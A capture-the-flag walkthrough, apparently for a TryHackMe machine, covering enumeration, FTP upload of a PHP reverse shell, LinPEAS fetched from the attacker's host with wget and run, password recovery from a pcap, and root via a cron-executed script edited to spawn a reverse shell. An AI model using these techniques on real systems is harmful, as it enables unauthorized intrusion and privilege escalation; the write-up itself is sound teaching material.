


# Enumeration
Let's start with rustscan to quickly enumerate the open ports. We find ports 21, 22, and 80 are open.


Let's confirm with a full nmap scan, followed by a detailed scan of the ports we found.


We'll begin our enumeration by investigating the ftp server. Our nmap scan already told us to expect a few files here.


The two files don't lead us anywhere, but notice the `ftp` directory. If we use gobuster to enumerate the directories of the webpage, we eventually find a `files` directory which contains the files and folder we found on the ftp server.

```bash
gobuster dir -u http://10.10.62.179 -w /usr/share/dirb/wordlists/common.txt -x .txt,.html
```




This gives us a connection between the http and ftp servers.
<br>

# Exploitation
Let's create a [reverse shell php script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We can upload it the `/files/ftp` directory via ftp the server. 



Set up a netcat listener on the chosen port. Now click on the php file on the web server to catch the reverse shell. From here we easily find the `recipe.txt` file needed for one of the Task's questions.


We can upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")'`.

Let's use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.


Here I saved the file to the `/tmp` directory since we know we can write there. Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`.  LinPEAS finds some unexpected files in the root folder.


Let's investigate. The only file/folder which leads us anywhere is the `/incidents` directory, since it contains a pcap file which we will want to take a look at with Wireshark.


To transfer the pcap file to our local machine, we can put it on the ftp server and then download it from the http server at the `/files/ftp` directory.


Let's open Wireshark and examine the pcap file. We're interested in http traffic, so right-click on any http packet and follow the http stream. Doing so reveals what appears to be an unauthorized attempt at accessing some files on the system. The relevant part for us is the following:


So it looks like the attacker tried to determine the www-data user's sudo privileges, but didn't have the correct password. However, this gives us a possible password to work with. We try with the username lennie, since the attacker seemed to be trying to `cd` into lennie's home directory.


Success! From here we can get the `user.txt` flag within lennie's home directory.


<br>

# Post-Exploitation

Let's begin looking for privesc methods. First note that lennie's home directory contains a `scripts` folder. Examining the contents, we see that there is a `planner.sh` script; note that we cannot write to this script.

```bash
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cd scripts
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 7 lennie lennie 4096 Jul 29 05:35 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Jul 29 05:37 startup_list.txt
lennie@startup:~/scripts$ cat startup_list.txt 

lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

The script copies some text onto the (currently empty) `startup_list.txt` file, and then it runs another script called `print.sh`. Using `grep -rnw / -e "planner.sh" 2>/dev/null`, we can verify that the `planner.sh` script is run by cron.

```txt
lennie@startup:/etc$ grep -rnw / -e "planner.sh" 2>/dev/null
/proc/sched_debug:434:      planner.sh  4523      2486.432522         2   120         0.163993         0.987655         0.000000 0 0 /system.slice/cron.service
```

Let's now examine the `print.sh` script. Note that lennie is the owner, and so we can modify this script.


```bash
lennie@startup:/etc$ cat print.sh
#!/bin/bash
echo "Done!"
```

We will add a line which will execute a reverse bash shell. I copied the command from [this](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) excellent list of one-liner reverse shell scripts. Our new `print.sh` file now looks like:


Now set up a netcat listener on the chosen port. After a short while, we catch the reverse shell with root privileges. We can then read the `root.txt` flag.

